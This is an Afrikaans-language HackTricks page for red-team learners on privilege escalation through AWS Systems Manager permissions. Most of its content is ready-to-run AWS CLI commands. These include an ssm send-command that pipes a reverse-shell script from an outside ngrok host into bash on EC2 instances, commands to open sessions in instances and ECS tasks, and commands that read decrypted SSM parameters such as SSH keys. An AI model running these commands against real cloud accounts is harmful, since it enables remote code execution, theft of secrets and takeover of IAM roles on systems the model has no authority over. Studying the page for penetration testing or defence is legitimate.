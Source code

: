 # AWS - SSM Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## SSM

Vir meer inligting oor SSM, kyk:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

'n Aanvaller met die toestemming **`ssm:SendCommand`** kan **opdragte uitvoer in instansies** wat die Amazon SSM Agent hardloop en die IAM Role wat binne-in dit hardloop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potensiële Impak:** Direkte bevoorregte toegang tot die EC2 IAM-rolle wat aan die lopende instansies met SSM-agente gekoppel is.

### `ssm:StartSession`

'n Aanvaller met die toestemming **`ssm:StartSession`** kan 'n **SSH-soort sessie begin in instansies** wat die Amazon SSM-agent hardloop en die IAM-rol wat binne-in dit hardloop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Om 'n sessie te begin, moet jy die **SessionManagerPlugin** geïnstalleer hê: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potensiële Impak:** Direkte bevoorregte toegang tot die EC2 IAM-rolle wat aan die lopende instansies met SSM-agente gekoppel is.

#### Bevoorregte toegang tot ECS

Wanneer **ECS-take** uitgevoer word met **`ExecuteCommand` geaktiveer**, kan gebruikers met genoeg toestemmings die `ecs execute-command` gebruik om 'n bevel binne die houer uit te voer.\
Volgens [**die dokumentasie**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) word dit gedoen deur 'n veilige kanaal te skep tussen die toestel wat jy gebruik om die "_exec_"-bevel te begin en die teikenhouer met SSM Session Manager.\
Daarom sal gebruikers met `ssm:StartSession` in staat wees om 'n skulp binne ECS-take te kry met daardie opsie geaktiveer deur net die volgende uit te voer:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Potensiële Impak:** Direkte bevoorregte toegang tot die `ECS`IAM-rolle wat aan lopende take met `ExecuteCommand` geheg is.

### `ssm:ResumeSession`

'n Aanvaller met die toestemming **`ssm:ResumeSession`** kan 'n SSH-soort sessie herbegin in instansies wat die Amazon SSM Agent hardloop met 'n **afgekoppelde** SSM-sessiestaat en die IAM-rol wat binne-in dit hardloop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potensiële Impak:** Direkte bevoorregte toegang tot die EC2 IAM-rolle wat aan die lopende instansies geheg is met SSM-agente wat loop en afgekoppelde sessies.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

'n Aanvaller met die genoemde toestemmings sal in staat wees om die **SSM parameters** te lys en hulle in **teksvorm te lees**. In hierdie parameters kan jy dikwels **sensitiewe inligting** soos SSH-sleutels of API-sleutels vind.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potensiële Impak:** Vind sensitiewe inligting binne die parameters.

### `ssm:ListCommands`

'n Aanvaller met hierdie toestemming kan al die **opdragte** wat gestuur is, lys en hopelik **sensitiewe inligting** daarop vind.
```
aws ssm list-commands
```
**Potensiële Impak:** Vind sensitiewe inligting binne die opdraglyne.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

'n Aanvaller met hierdie toestemmings kan al die **opdragte** wat gestuur is, lys en die gegenereerde uitset lees, hopelik om **sensitiewe inligting** daarin te vind.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die uitset van die opdraglyne.

### Codebuild

Jy kan ook SSM gebruik om binne 'n codebuild-projek wat gebou word, in te gaan:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
